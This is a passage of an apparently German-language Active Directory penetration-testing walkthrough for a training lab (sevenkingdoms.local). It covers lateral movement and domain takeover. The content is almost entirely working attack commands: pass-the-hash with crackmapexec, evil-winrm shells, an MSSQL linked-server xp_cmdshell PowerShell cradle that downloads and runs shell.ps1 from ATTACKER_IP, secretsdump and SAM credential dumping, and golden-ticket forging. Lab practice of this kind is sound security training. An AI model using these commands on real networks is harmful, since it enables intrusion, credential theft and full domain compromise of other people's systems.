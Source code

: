 
## Phase 6: Command & Control - Lateral Movement

### 1. Pass-the-Hash
```bash
# Mit gültigen NTLM-Hashes
crackmapexec smb 192.168.10.0/24 -u administrator -H NTLM_HASH --local-auth
crackmapexec smb 192.168.10.10 -u administrator -H NTLM_HASH -x "whoami"
```

### 2. WinRM-basierte Bewegung
```bash
# WinRM-Zugriff testen
crackmapexec winrm 192.168.10.0/24 -u jon.snow -p password

# Interactive Shell
evil-winrm -i 192.168.10.12 -u jon.snow -p password
```

### 3. MSSQL Linked Server Hopping
```bash
# Von castelblack zu braavos
python3 /usr/share/impacket/examples/mssqlclient.py \
  sevenkingdoms.local/jon.snow:password@192.168.10.12

SQL> select * from openquery("braavos", 'exec xp_cmdshell "powershell -Command \"IEX (New-Object Net.WebClient).DownloadString(''http://ATTACKER_IP:8000/shell.ps1'')\""')
```

---

## Phase 7: Actions on Objective - Ziele erreichen

### 1. Domain Compromise Validation
```bash
# Domain Admin Hash Dump
python3 /usr/share/impacket/examples/secretsdump.py \
  sevenkingdoms.local/administrator:password@192.168.10.10

# Alle Domain Computer kompromittieren
crackmapexec smb 192.168.10.0/24 -u administrator -H ADMIN_HASH --sam
```

### 2. Cross-Domain/Forest Attacks
```bash
# Trust Enumeration
crackmapexec ldap 192.168.10.10 -u administrator -p password --trusts

# Cross-Forest Golden Tickets
python3 /usr/share/impacket/examples/ticketer.py \
  -nthash KRBTGT_HASH -domain-sid S-1-5-21-... \
  -domain sevenkingdoms.local -extra-sid S-1-5-21-...-519 administrator
```

---